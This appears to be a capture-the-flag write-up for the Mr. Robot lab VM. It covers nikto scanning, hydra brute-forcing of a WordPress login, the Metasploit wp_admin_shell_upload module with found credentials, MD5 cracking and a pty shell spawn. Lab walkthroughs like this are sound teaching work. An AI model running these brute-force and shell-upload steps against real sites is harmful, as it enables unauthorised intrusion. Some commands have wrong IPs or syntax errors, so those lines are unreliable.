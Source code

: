# Setting Up the Virtual Lab for Machine, I am using Virtual Box 
# Creating a Virtual Lab
1. create a NAT Network in Virtual Box
![alt text](image.png)

2. Go to Network Setting and connect the machines network to created NAT Network
![alt text](image-1.png)

3. Now Start Both the Machines

# Phase 1: Reconnaissance

This VM gets it’s IP address from the DHCP, so through a quick network scan, I saw that the machine was running on 192.168.100.4

For a convenince, I have given a host to server 192.168.100.4 as hacknest.net
![alt text](screenshots/image-3.png)


 Time to make some notes again. There are two main services active across three ports. An SSH server and an Apache webserver. We can also see it’s running on a VirtualBox, not that it matters for our assessment or not like we didn’t already know this.

# Phase 2: Information Gathering
As port 80 is open let's open it up in browser,
![alt text](screenshots/webpage.png)

On the website, a boot animation loads, giving us some sort of fake web shell. Upon further investigation, I noticed that the commands don’t really do anything special, other than giving some videos

As it is a web server lets open robots.txt,

![alt text](screenshots/robot.png)

### BAMM !! 🔓 We got our our first flag 
Download the Key 1 file to get the flag

![alt text](screenshots/flag_1.png)

We also got a fsocity.dic, I come to know from its extension that it is a dictionary file, now lets check its content,I sorted and filtered unique values from file and got around 11k words

![](screenshots/sort.png)

### Let's Scan the website for login page to get adminstrative rights for website

Here I am using nikto to scan the web server

`nikto -h hacknest.net `

#### Here's the result of the Nikto and we got that website is running on wordpress and also the login URL..

![nikto output](screenshots/login_scan.png)


![wordpress Login Page](screenshots/login_page.png)


# Phase 3: Exploitation
The great thing about this WordPress version is that you can enumerate usernames of users on the WordPress installation. How? Basically as follows:

If you write some random gibberish in the login form, you will get the following error:

> ERROR: Invalid username. Lost your password?

If, however, you get a valid username, you’ll get a different error:

> ERROR: The password you entered for the username pablo is incorrect. Lost your password?

Knowing this, we can try a bunch of usernames and check if there is any difference in the error messages. We have our wordlist from before, so it would be my first guess to try that one.

The tool we’re going to be using is hydra. The best tool for bruteforcing anything. But before we go ahead and launch it, we need to check what the requests to log into a WordPress site looks like.

In order to capture that request, I’m going to use Burp Suite as a proxy in between my browser and the target.

![burp request](screenshots/burp.png)

We see 3 important parameters:

-   **log**  — The username
-   **pwd**  — The password
-   **wp-submit**  — The “thing” we’re submitting (log in)


Let’s throw this into hydra:

```bash

hydra -L fsocity_filtered.dic -p something 192.168.1.56 http-post-form ‘/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username’
```

-   -L fsocity_filtered.dic — Here we will bruteforce the login using our wordlist we found earlier
-   -p — Here we supply a password, at this stage, we only want the username, so it doesn’t matter what we fill in here
-   192.168.1.56 — Our target
-   http-post-form — The method we’re bruteforcing, in this case, a POST request

![hydra_username](screenshots/username.png)

**Elliot**  seems to be our username, now let’s do this again but checking for the password. The new hydra command will be:

```bash
hydra -l elliot -P fsocity_sorted.dic hacknest.net http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit-Log+In:F=is incorrect' 
```
![password cracked](screenshots/passwd_crack.png)


Now we can leverage the WordPress admin to get a shell on the webserver. For this, we’ll use Metasploit.

### Start the metasploit using following command
```bash
msfconsole
```

#### Search for the wordpress shell exploit and use it

```bash
msf6 > search wordpress shell
```

#### Select and copy the following exploit
```bash
exploit/unix/webapp/wp_admin_shell_upload
```

#### Now configure the exploit for target:
```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 192.168.100.4

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME elliot

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD ER28–0652

exploit
```

#### When I exploit it,I got the following error:
![wp-error image](screenshots/err.png)

#### The error occured because the WordPress installation isn’t really being used, but still we can get the admin privileges

We can set **wpcheck false** and run the exploit

### Bammm ! we got the meterprter shell and now we have to search for the 2nd flag
![meterprester session](screenshots/session.png)


If we now go to the user’s desktop at /home/robot, we can see the second key there, as well as a file called password.raw-md5.

![shell](screenshots/user.png)

# Phase 4: Privilege Escalation

Looking at the contents of that raw-md5 file, we can indeed see an MD5 hash for the account ‘robot’.


> robot:c3fcd3d76192e4007dfb496cca67e13b

#### I cracked the MD5 hash using [CyberChef](https://gchq.github.io/CyberChef/) and [crackstation](https://crackstation.net/)

#### The hash in plain text is **abcdefghijklmnopqrstuvwxyz**

### Now let's try logging in as robot
### I got the following error:
![error](screenshots/err2.png)

### Its telling us to start the tty shell, we can start the tty shell using python command as follows:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Finally we logged in as robot the got the flag 2 🎉🎉
![key 2](screenshots/key_2.png)